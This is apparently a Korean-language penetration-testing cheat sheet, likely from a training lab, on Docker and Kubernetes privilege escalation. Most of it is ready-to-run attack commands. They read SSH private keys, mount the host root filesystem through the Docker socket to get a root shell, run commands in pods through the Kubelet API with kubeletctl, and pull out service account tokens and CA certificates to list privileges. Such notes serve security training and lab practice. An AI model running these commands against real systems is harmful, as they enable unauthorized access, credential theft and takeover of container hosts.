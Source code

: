 ```
## Docker 권한 상승

### Docker 공유 디렉토리
```cat .ssh/id_rsa```<br/>
```ssh <user>@<host IP> -i <user>.priv```

### Docker 소켓
```
wget https://master.dockerproject.org/linux/x86_64/docker
scp docker <user>@10.129.205.237:~/.

docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

<br/><br/>
# 쿠버네티스

## Control Plane
| **서비스**                 | **TCP 포트**    |
| ----------------------- | ------------- |
| `etcd`                  | `2379`,`2380` |
| `API server`            | `6443`        |
| `Scheduler`             | `10251`       |
| `Controller Manager`    | `10252`       |
| `Kubelet API`           | `10250`       |
| `Read-Only Kubelet API` | `10255`       |

## 쿠버네티스 API
| **Request** | **설명**                     |
| ----------- | -------------------------- |
| `GET`       | 리소스나 리소스 목록에 대한 정보를 검색합니다. |
| `POST`      | 새로운 리소스를 만듭니다.             |
| `PUT`       | 기존 리소스를 업데이트합니다.           |
| `PATCH`     | 리소스에 부분적인 업데이트를 적용합니다.     |
| `DELETE`    | 리소스를 제거합니다.                |

### K8의 API 서버 상호작용
```curl https://10.129.10.11:6443 -k```

### Kubelet API - Extracting Pods
```curl https://10.129.10.11:10250/pods -k | jq .```

### Kubeletctl - Extracting Pods
```kubeletctl -i --server 10.129.10.11 pods```

### Kubelet API - Available Commands
```kubeletctl -i --server 10.129.10.11 scan rce```

### Kubelet API - Executing Commands
```kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx```

## Privilege Escalation

### Kubelet API - Extracting Tokens
```kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token```

### Kubelet API - Extracting Certificates
```kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt```

### List Privileges
```
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```

```